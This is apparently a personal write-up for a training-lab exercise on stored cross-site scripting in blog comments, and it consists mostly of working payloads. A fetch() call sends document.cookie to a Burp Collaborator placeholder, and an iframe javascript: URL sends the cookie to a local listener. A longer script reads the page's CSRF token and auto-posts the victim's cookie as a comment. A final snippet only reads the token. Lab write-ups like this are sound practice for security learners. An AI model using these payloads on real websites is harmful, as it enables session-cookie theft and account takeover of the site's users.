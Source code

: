 Title: Exploiting cross-site scripting to steal cookies
Level: PRACTITIONER
Desc: This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 

fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});

<iframe width='1' height='1' src="javascript:var
url='http://0.0.0.0:9000?';url=url.concat(document.cookie);fetch(url);">
  
```
<script>
  var csrfToken = document.querySelector('input[name="csrf"]').value;
</script>
<form method="POST" action="https://0a650049030436b68009303c007b0035.web-security-academy.net/post/comment">
    <input type="hidden" name="postId" value="4">
    <input type="hidden" name="comment" value="test">
    <input type="hidden" name="name" id="nameId">
    <input type="hidden" name="email" value="test@test.ts">
    <input type="hidden" name="website" value="https://sdkldl.com">
    <input type="hidden" name="csrf" id="csrfId">
</form>
<script>
  document.addEventListener('DOMContentLoaded', function() {
  var form = document.querySelector('section.add-comment form');
  var csrfToken = form.querySelector('input[name="csrf"]').value;
  console.log(csrfToken);
  //document.querySelector('#myForm input[name="csrf"]').value = csrfToken;
  var cookie = document.cookie;
  document.querySelector('#nameId').value = cookie;
  document.querySelector('#csrfId').value = csrfToken;
  document.forms[0].submit();
  });
</script>
```
  
To get the csrf :)))))
```
<script>
  document.addEventListener('DOMContentLoaded', function() {
    var form = document.querySelector('section.add-comment form');
    var csrfToken = form.querySelector('input[name="csrf"]').value;
    console.log(csrfToken);
  });
</script>
```

<img width="757" height="482" alt="image" src="https://github.com/user-attachments/assets/86b65cfd-30d5-4f44-9cd7-964a82aac733" />

